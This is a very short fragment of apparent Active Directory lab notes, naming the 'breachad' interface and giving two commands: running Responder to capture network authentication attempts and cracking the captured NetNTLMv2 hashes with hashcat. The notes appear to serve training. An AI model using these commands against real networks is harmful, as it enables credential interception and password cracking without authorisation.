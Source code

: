 Listen for connections

	sudo responder -I breachad

Crack

	hashcat -m 5600 <hash file> <password file> --force

